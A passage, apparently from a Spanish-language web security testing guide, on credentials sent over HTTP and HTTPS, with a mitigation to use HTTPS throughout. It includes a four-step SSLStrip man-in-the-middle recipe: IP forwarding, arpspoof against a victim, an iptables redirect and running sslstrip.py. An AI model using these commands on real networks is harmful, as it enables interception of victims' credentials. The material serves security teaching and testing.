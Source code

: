 ```http

User=test&Pass=test&portal=ExamplePortal
```

Podemos ver que nuestra solicitud está dirigida a www.example.com:443/login.do a través de HTTPS. Pero si echamos un vistazo al encabezado de referencia (la página de la que venimos), es www.example.com/homepage.do y es accesible a través de HTTP simple. Aunque enviamos datos a través de HTTPS, esta implementación puede permitir ataques **SSLStrip**.

**SSLSTRIP**

El funcionamiento de SSLStrip es simple, reemplaza todas las peticiones HTTPS de una página web por HTTP y luego hace un MITM (ataque «Man in the Middle«) entre el servidor y el cliente. La idea es que la víctima y el agresor se comuniquen a través de HTTP, mientras que el atacante y el servidor, se comunican a través de HTTPS con el certificado del servidor. Por lo tanto, el atacante es capaz de ver todo el tráfico en texto plano de la víctima.

1.- Configurar IP Forwarding

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

2.- Realizando ataque ARP MITM entre las 2 maquinas:

```bash
arpspoof -i eth0 -t VICTIMA HOST
```

3.- Redireccionar trafico con iptables:

```bash
iptables -t nat -A PREROUTING -p tcp –destination-port 80 -j REDIRECT –to-ports 8080
```

4.- Iniciar SSLStrip en el puerto utilizado [https://github.com/moxie0/sslstrip](https://github.com/moxie0/sslstrip)

```bash
python sslstrip.py -w archivo
```

**SOLUCION: USAR TODO CON HTTPS**

#### Ejemplo 4: Envío de datos con el método GET a través de HTTPS

```http
GET https://www.example.com/success.html?user=test&pass=test HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1.14) Gecko/20080404
Accept: text/xml,application/xml,application/xhtml+xml,text/html
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Connection: keep-alive
Referer: https://www.example.com/form.html
If-Modified-Since: Mon, 30 Jun 2008 07:55:11 GMT
If-None-Match: "43a01-5b-4868915f"
```
